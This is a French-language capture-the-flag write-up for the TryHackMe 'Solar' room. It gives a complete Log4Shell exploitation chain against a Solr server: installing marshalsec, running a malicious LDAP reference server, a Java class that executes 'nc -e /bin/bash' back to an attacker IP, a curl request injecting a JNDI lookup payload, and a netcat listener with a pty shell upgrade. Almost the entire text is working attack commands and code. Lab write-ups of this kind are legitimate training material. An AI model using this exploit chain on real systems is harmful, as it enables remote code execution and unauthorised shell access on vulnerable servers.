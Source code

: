## Writeup de la room "Solar"

Lien: https://tryhackme.com/room/solar

Docker: **`sudo docker run -it --name "Kali" -p 1234:1234 -p 8000:8000 -p 1389:1389 kalilinux/kali /bin/bash `**



Installer toutes les dépendances: 

```bash
cd home
apt update
apt install -y netcat-traditional python3 curl wget git maven nano vim
wget https://github.com/adoptium/temurin8-binaries/releases/download/jdk8u312-b07/OpenJDK8U-jdk_x64_linux_hotspot_8u312b07.tar.gz
tar xzf OpenJDK8U-jdk_x64_linux_hotspot_8u312b07.tar.gz 
echo 'export PATH=$PWD/jdk8u312-b07/bin:$PATH' >> .bashrc
git clone https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests
```

Lancer le serveur LDAP

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.77.76:8000/#Exploit	
```

Créer le reverse shell

```shell
cd ~
mkdir exploit
cd exploit
nano Exploit.java # puis insérer le code ci-dessous
javac Exploit.java
```

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.77.76 1234");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Lancer le serveur python

```shell-session
python3 -m http.server
```

Ouvrir la connexion du reverse shell:

```
nc -lnvp 1234
```



Exécuter:

```bash
 curl 'http://10.10.91.84:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.77.76:1389/Exploit\}'
```

Résultat: on a un shell

À noter qu'il n'y a pas de "décoration" du shell au départ, mais qu'on peut quand même exécuter des commandes.

Pour rendre "user-friendly" le shell on peut lancer cette commande:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
```



